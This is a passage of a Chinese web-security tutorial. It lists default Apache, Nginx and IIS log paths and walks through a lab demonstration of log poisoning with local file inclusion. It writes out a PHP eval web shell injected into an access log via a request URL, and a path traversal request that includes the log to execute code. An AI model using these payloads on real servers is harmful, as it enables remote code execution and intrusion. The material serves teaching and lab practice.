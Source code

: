 #### 2.5.1.1. Apache

apache存在两个文件日志文件，access.log是记录登录等信息的日志文件，而error.log是错误文件。

```
Windows系统：
apache安装目录/logs/access.log或者error.log
linux系统：
/var/log/apache/access.log或者error.log
/var/log/apache2/access.log或者error.log
/etc/httpd/logs/access_log或者error.log
```

#### 2.5.1.2. Nginx

nginx存在两个文件日志文件，access.log是记录登录等信息的日志文件，而error.log是错误文件。

```
Windows系统：
nginx安装目录/logs/access.log或者error.log
2）linux系统：
/var/log/nginx/access.log或者error.log
```

#### 2.5.1.3. IIS

```
iis6.0版本
C:\windows\system32\LogFiles
iis7.5版本
%SystemDrive%\inetpub\logs\LogFiles
```

### 2.5.2. **包含Apache日志案例**

Apache运行后一般默认会生成两个日志文件，access.log(访问日志)，error.log(错误日志)。

下图就是被转码的，只需要手动修改一下重新发送即可。

```
URL：http://192.168.10.150/<?php @eval($_POST[123]);?>
```

![image-20230413154518598](https://s2.loli.net/2023/04/13/xPMiX2wAbT1dDcC.png)

在apache/logs/access.log中就能够看到我们植入的恶意代码。编号①是没使用burp修改前的，编号②是使用burp修改后的。

![image-20230413154538845](https://s2.loli.net/2023/04/13/29hR4t81YnWil7I.png)

通过对本地的日志文件进行包含读取，输入123=phpinfo();。

```
URL:http://192.168.10.150/1.php/?name=../Apache/logs/error.log
```

![image-20230413154546472](https://s2.loli.net/2023/04/13/SlcWKB5YdR8puTo.png)
